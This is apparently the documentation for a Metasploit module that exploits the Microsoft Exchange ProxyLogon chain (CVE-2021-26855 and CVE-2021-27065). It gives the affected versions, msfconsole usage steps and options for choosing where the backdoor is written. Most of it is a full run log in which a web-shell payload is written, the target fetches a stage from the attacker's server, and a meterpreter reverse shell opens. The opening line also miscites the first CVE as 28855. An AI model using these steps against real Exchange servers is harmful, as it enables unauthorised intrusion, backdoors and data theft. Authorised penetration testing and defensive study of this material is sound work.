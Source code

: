 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### ExchangeBasePath

The base path where exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### IISWritePath

The path where you want to write the backdoor. Default: aspnet_client

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name              Current Setting           Required  Description
   ----              ---------------           --------  -----------
   EMAIL             gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD            POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            172.20.2.115              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443                       yes       The target port (TCP)
   SRVHOST           0.0.0.0                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                      yes       The local port to listen on.
   SSL               true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                     no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                     yes       Use the IIS root dir as alternate path
   VHOST                                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.115:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable.
[*] https://172.20.2.115:443 - Attempt to exploit for CVE-2021-26855
[*] Internal server name (EX01)
[*] https://172.20.2.115:443 - Sending autodiscover request
[*] Server: c7f46eae-bac1-49e7-8502-afe90609ea7f@pwned.lab
[*] LegacyDN: /o=Pwned Exch2k13-HA/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=683c605c88c14fcca1f5e74d0d136461-Gaston
[*] https://172.20.2.115:443 - Sending mapi request
[*] SID: S-1-5-21-3876225949-3666446388-246247518-1156 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.115:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] ASP.NET_SessionId: 0afcd390-2f45-4729-b61b-e5736506a9f8
[*] msExchEcpCanary: weJ762-b4Uix8onrYoWz4gyEDgMC7tgI9iF8nvIxvD1_aiuvPfAjgd3PzLmDcDJdlxwz2Ez3a9Q.
[*] OAB id: 21ed064b-5267-4f4b-be7c-c7a79b18e02a (OAB (Default Web Site))
[*] https://172.20.2.115:443 - Attempt to exploit for CVE-2021-27065
[*] Prepare the payload on the remote target
[*] Write the payload on the remote target
[+] Yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.115:443
[*] Using URL: http://0.0.0.0:8080/w0e7SQlq
[*] Local IP: http://172.20.2.12:8080/w0e7SQlq
[*] Client 172.20.2.111 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /w0e7SQlq
[*] Sending payload to 172.20.2.111 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Client 172.20.2.111 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /w0e7SQlq
[*] Sending payload to 172.20.2.111 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Sending stage (200262 bytes) to 172.20.2.111
[*] Meterpreter session 1 opened (172.20.2.12:4444 -> 172.20.2.111:7515) at 2021-03-21 17:46:27 +0400
[*] Sending stage (200262 bytes) to 172.20.2.111
[*] Meterpreter session 2 opened (172.20.2.12:4444 -> 172.20.2.111:7516) at 2021-03-21 17:46:27 +0400
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\DIvVhrza.aspx
[*] Server stopped.

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
